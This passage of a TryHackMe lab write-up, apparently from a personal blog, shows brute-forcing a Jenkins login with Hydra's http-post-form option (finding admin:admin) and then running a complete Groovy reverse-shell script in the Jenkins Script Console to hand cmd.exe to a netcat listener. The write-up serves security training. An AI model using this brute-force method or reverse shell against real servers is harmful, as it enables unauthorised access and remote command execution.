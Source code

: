 <div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010102533.png' | relative_url }}" text-align="center"/>
</div>

As we see, we must use the POST form so we write 'http-post-form' and add between coutes: the login page, the post data, and the error message that the pages displays to indicate an error login try.

- The login page can be found by the same way as the we found about the POST method on the "file" field:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010103002.png' | relative_url }}" text-align="center"/>
</div>

- The data can be found clickn on the login request on Inspector Network and on the right a window will appears will multiple tabs, on the tab "Params" we can found the parameters that the client request send as data,

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010103256.png' | relative_url }}" text-align="center"/>
</div>

we have to add it to the command separate with '&' and on the username parameter we write the value ^USER^ and on the password ^PASS^

And at last, the error message that can be found sending an error login try:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010103525.png' | relative_url }}" text-align="center"/>
</div>

This will serve to Hydra as a match parameter to catalogate a response as fail. If we don't localizate correctly this message or we don't write it correctly Hydra will not find it on any request and in consecuence will mark all the request as valid credentials.

When executing the command we obtain:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010104000.png' | relative_url }}" text-align="center"/>
</div>

So admin:admin are a valid credentials.

No we are in the web app as admins. On the [documentation](https://www.jenkins.io/doc/book/managing/script-console/) of Jenkins appears that exists a feature that allows the execution of Groovy scripts. If this feature doesn't receive adequate security some intruder could execute malicious script.

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20221010165821.png' | relative_url }}" text-align="center"/>
</div>

Thus, we go to *Manage Jenkis > Script Console* (or simply to the web file /script) and run the following groovy script after we put a netcat listener in our machine:

```groovy
String host="<LocalIP>";
int port=<LocalPort>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
